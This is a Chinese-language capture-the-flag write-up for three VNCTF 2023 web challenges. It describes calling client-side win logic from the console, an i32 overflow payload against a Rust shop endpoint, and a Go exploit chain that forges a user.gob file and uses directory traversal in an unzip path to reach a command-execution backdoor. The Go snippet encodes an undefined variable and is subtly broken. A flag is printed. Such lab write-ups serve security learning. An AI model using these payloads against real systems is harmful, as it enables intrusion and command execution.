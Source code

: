 ## Web
### 象棋王子
在js源码 play.js中找到赢之后执行的逻辑，直接控制台执行
![](attachments/Pasted%20image%2020230427123520.png)


![](attachments/Pasted%20image%2020230427123350.png)

flag{w3lc0m3_t0_VNCTF_2023~~~}

### 电子木鱼
rust编写的后端，要1亿功德拿flag

![](attachments/Pasted%20image%2020230427124500.png)

这里考虑将cost设置为一个极限的负数，使功德减去它的时候能够转正 
i32的大小是 -2147483648~2147483647，经典的构造极限

没有思考了，在极限那个位置reset了几次
payload `name=Cost&quantity=214748366`

![](attachments/Pasted%20image%2020230427131811.png)

### BabyGo
go语言
一共5个路由
- GET /
- GET /upload
- POST /upload
	- 禁止上传 .gob 和 .go 文件
- GET /unzip
	- 解压文件，文件路径来自与get参数拼接
- GET /backdoor
	- 解码引用user.gob  在 Power为 admin 时 可以通过 goeval.Eval() 来执行命令

>思路：上传压缩文件，解压后覆盖原有user.gob 以此引用 /backdoor来执行命令，由于在调用的时候有decode的操作，我们生成的文件也需要是对应二进制的才能decode

[Go语言二进制文件的读写操作 (biancheng.net)](http://c.biancheng.net/view/4563.html)

```go
package main

import (
    "encoding/gob"
    "fmt"
    "os"
)

type User struct {
    Path string
    Name string
    Power string
}

func main() {
    user := User{Name: "ctfer", Path: "/tmp/d7671aa466b2c69f80e4bc0cf4b6b638/", Power: "admin"}
    file, err := os.Create("./user.gob")
    if err != nil {
        fmt.Println("文件创建失败", err.Error())
        return
    }
    defer file.Close()

    encoder := gob.NewEncoder(file)
    err = encoder.Encode(info)
    if err != nil {
        fmt.Println("编码错误", err.Error())
        return
    } else {
        fmt.Println("编码成功")
    }
}
```

解压时path可控，可以直接目录穿越
path=/../../../../../tmp/d7671aa466b2c69f80e4bc0cf4b6b638/
带着参数访问unzip就可以

![](attachments/Pasted%20image%2020230427135428.png)
